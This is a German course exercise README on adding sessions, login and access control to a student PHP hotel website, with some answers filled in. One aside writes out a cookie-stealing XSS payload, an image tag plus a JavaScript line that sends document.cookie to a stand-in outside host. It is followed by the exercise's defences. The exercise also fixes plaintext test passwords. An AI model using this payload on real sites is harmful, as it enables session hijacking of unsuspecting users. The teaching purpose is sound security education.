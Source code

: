 ## Hotel Webseite - 3.Teil: Login und Zugriffsrechte

Diese Übung ist eine Fortsetzung der Übungen [hotel](../hotel/) und [hotel-admin](../hotel-admin/). Es wird in den gleichen Teams gearbeitet wie bei der Übung `hotel-admin`.

## a) Setup  
Als ersten Schritt kopiere alle Daten aus der fertigen Übung `hotel-admin` in einen neuen Ordner `hotel-login/`. 
Kopiere diese Datei `README.md` in den Ordner `hotel-login/`.

**Jetzt ist der Zeitpunkt wo alle Fehler, die beim Feedback aufgetaucht sind, zu fixen sind bevor du mit der neuen Übung beginnst. Ziel: jedes Mitglied im Team hat seine funktionierende Version von **hotel-admin** auf seinem Webspace = man kann Zimmer erstellen, editieren und löschen + Beschreibung für Zimmer.**

Dann adde/committe den neuen Ordner.

* `hotel` enthält also die erste Version des Projekts, die Daten lesen kann.
* `hotel-admin` enthält die Version, die auch Daten schreiben kann.
* `hotel-login` enthält die neue Version mit Login


## b) Experimente Cookie + Session

1. Baue in den Footer der Seite ein `echo session_id()` ein. - Das sollte noch keinen Output liefern.
Liefert keinen Output

2. Füge am Anfang von `functions.php` den Befehl `session_start()` ein. Nun sollte im Footer etwas angezeigt werden.
Jetzt ist etwas im Footer zu sehen.

3. In den Developer Tools des Browsers: Finde die Cookies. Ist Cookie gleich Session ID?
Es ist die gleiche Session ID.

4. In der Konsole des Browsers: Was liefert `document.cookie`? Kannst Du diesen Wert überschreiben? Wie? 
document.cookie gibt die Session ID. Session ID kann über die Dev Tools im Webspeicher Tab geändert werden.

(Antworten bitte direkt hier in die README.md im Ordner hotel-login schreiben und comitten)

## c) Login

Ergänze den Code so, dass Login + Logout nach dem Plan in [Kapitel "Session und Login"](https://web-development.github.io/session/session-und-login/) funktionieren.

Programmiere zwei fixe Usernamen und Passwörter. Beides ist vorgegeben, damit wir auch testen können! 

    username = rezeption
    passwort = asecret

    username = gast
    passwort = asecret

Das Speichern von Usern + Passwörtern in der Datenbank machen wir noch nicht.  (Da brauchen wir dann [password_hashing](https://phptherightway.com/#password_hashing))

Commit nicht vergessen!

## d) Verschiedene Darstellung nach Einloggen 

Ändere `header.php` so, dass die Links zu `buchungen.php`, `plan.php` und `konfiguration.php`
nur angezeigt werden, wenn man eingeloggt ist.

Commit nicht vergessen!

## e) Zugriffsschutz für Seiten

Wir haben zwar den Link zu den Seiten `buchungen.php`, `plan.php` und `konfiguration.php` entfernt, aber noch kann jeder - egal ob eingeloggt oder nicht - auf diese Seiten zugreifen.  Man muss nur die URL kennen und dann kann man sich weiterklicken zu `buchung.php`, `zimmer_new.php`, ... und alles bedienen.

Erstelle eine vollständige Liste aller "Seiten" Ihrer App, jeweils mit Dateiname, Beschreibung und welche Zugriffsrechte sie haben sollte in `sitemap.md` hier im Ordner `hotel-login`.

Baue in alle Seiten, die nur für die Rezeption zugänglich sein sollen, eine Überprüfung ein: Ohne eingeloggten User wird nur eine Fehlermeldung angezeigt, falls der Username nicht `rezeption` ist wird nur eine Fehlermeldung angezeigt.

Commit nicht vergessen!

## f) Cookie Klauen = Session Klauen

Diese Übung macht richtig Spass nachdem man auf users.multimediatechnology.at deployed hat.

1. Logge Dich in Browser A (z.B. Firefox) ein.
2. Kopiere das Cookie aus dem Browser A raus.
3. Setze in Browser B (z.B. Chrome) in der Konsole das Cookie.
4. Bist Du jetzt auch in Browser B eingeloggt? JA

und, die verschärfte Version:

5. Schicke das Cookie an eine Kollegin/einen Kollegen, funktioniert der Login-Klau auch von einem anderen Computer aus? JA

(Beantworte Fragen 4 + 5 hier im README)


### Nebenbemerkung: Wie kann man jemandem das Cookie klauen?

Wenn die Seite für Cross Site Scripting (XSS) anfällig ist, und jemand HTML in eines der Eingabefelder reinschreiben kann:  

   `<img id='frosch' src='https://somewhere.else/frosch.jpg'>`

Wenn irgendwer dann noch ein bisschen JavaScript dazu getan hätte, hätte irgendwer die Cookies klauen können:

    `document.getElementById('frosch').src+= "?" + document.cookie`

Jetzt wird, wenn sich jemand von der Rezeption die Seite ansieht, an `somwhere.else` ein Request geschickt, der die Cookies enthält. Ohne dass man's merkt.

## g) Sicherheitsmaßnahmen

Gegen diese Art der Attacke gibt es mehrere Verteidigungslienien:

1. HTTPS
2. `secure` und `httponly` Cookies 
3. Escaping von User-Input bei der Ausgabe -- kein HTML und Javascript mehr möglich
4. Content Security Policy  https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

Baue Punkt 2 und 3 in deinem Projekt ein.

## P.S.
Bonus-Level: ein Buchungs-Formular auf die Homepage bauen, so wie in der [Demo Seite](https://users.multimediatechnology.at/~bjelline/hotel-login/).
Die Buchung soll ohne Login möglich sein. (2 Extrapunkte).

## Checkliste
- [ ] Kopiere alle Dateien aus `hotel-admin/` in einen `hotel-login/`-Ordner
- [ ] Behebe alle bestehenden Code-Probleme! (siehe a) Setup) 

- [ ] Im Footer: `echo session_id()`
- [ ] Im `functions.php`: `session_start()`
- [ ] Beantwortung von b) 4. Frage in diesem README.md

- [ ] Login funktioniert (man kann sich mit beiden User einloggen)
- [ ] Logout funktioniert

- [ ] Links im Header werden nicht angezeigt wenn kein User vorhanden
- [ ] `sitemap.md`: Enthält eine Liste aller Seiten und ob und welcher User Zugriff darauf hat.

- [ ] f) 4. & 5. Beantwortung hier im README.md

- [ ] `secure` und `httponly` Cookies
- [ ] User Input wird escaped. (zB bei der Beschreibung, falls noch nicht vorhanden sollten jetzt HTML-Tags nicht mehr interpretier werden sondern einfach ausgegeben werden als Plain Text).

- [ ] Die Abgabe ist am Webspace unter `.../hotel-login/` zu finden und **funktioniert BEI BEIDEN Team-Mitgliedern**.
- [ ] Abgabe im Gitlab (Code bei beiden gleich)
- [ ] Im Repo lässt sich kein `config.php` finden.
- [ ] Und wie immer gilt: HTML Validator wirft keine Fehler und wir bauen nur Seiten mit einer validen HTML Struktur. Nochmal zur Wiederholung: Seitenquelltext jeder Seite in den HTML Validator schmeißen (https://validator.w3.org/#validate_by_input), dann funktioniert es auch mit PHP Dateien. **Achtung: HTML Validator Fehler bzgl. style im Body (besteht auch bei Brigittes Vorlage) wird nicht als Fehler bewertet!**

## Dateiliste
Dateien, die bei dieser Aufgabe verändert oder angelegt werden:
| Datei | Abgabeort | Hinweis |
| ------ | ------ | ------ |
| functions.php | Webspace und Repo, hotel-login/ | 
| README.md | Webspace und Repo, hotel-login/ | Dieses File mit den geforderten Antworten (ersetzt das README aus der ersten Hotel Aufgabe)
| header.php | Webspace und Repo, hotel-login/ | 
| footer.php | Webspace und Repo, hotel-login/ | 
| sitemap.md | Webspace und Repo, hotel-login/ | Alle Seiten und ihre Permissions
| evtl. login.php/logout.php | Webspace und Repo, hotel-login/ | 
| alle Seiten wo eine Überprüfung für den User eingabut wurde | Webspace und Repo, hotel-login/ |


**Jedes Team-Mitglied gibt den gemeinsamen Code in seinem eigenen Repo und Webspace (mit Verbindung zur eigenen Datenbank) ab.**



